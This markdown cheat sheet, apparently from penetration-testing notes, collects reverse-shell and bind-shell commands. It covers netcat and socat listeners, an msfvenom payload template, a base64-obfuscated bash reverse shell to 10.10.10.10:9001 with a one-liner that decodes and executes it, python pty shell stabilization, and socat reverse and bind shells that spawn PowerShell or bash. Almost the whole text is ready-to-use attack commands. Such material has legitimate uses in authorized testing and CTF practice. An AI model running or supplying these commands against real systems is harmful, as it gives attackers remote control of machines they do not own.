 ## Invoke listener for a reverse shell
```nix
# Netcat
rlwrap nc -nlvp 4444

# Socat
socat TCP-L:4444 -
```
## Generate shell using msfvenom
```nix
msfvenom -p PAYLOAD -f FORMAT -a ARCHITECTURE LHOST=127.0.0.1 LPORT=4444
```
## Base64 technique
```nix
# Encode shell using Base64
echo -n "/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1" | base64

# Execute shell
echo -n L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjEwLjEwLzkwMDEgMD4mMQ== | base64 -d | bash
```
## Upgrade / Stabilize Shell
```nix
python -c 'import pty; pty.spawn("/bin/bash")
```
```nix
export TERM=xterm
```
## Using socat
```nix
# Windows Reverse
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

# Windows Bind (on target)
socat TCP-L:<PORT> EXEC:powershell.exe,pipes

# Linux Reverse
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

# Linux Bind (on target)
socat TCP-L:<PORT> EXEC:"bash -li"

# Connect to waiting socat bind listener
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
## Upgrade Normal Shell to Meterpreter (Metasploit)
[https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646)
## Resources
- [https://www.revshells.com/](https://www.revshells.com/)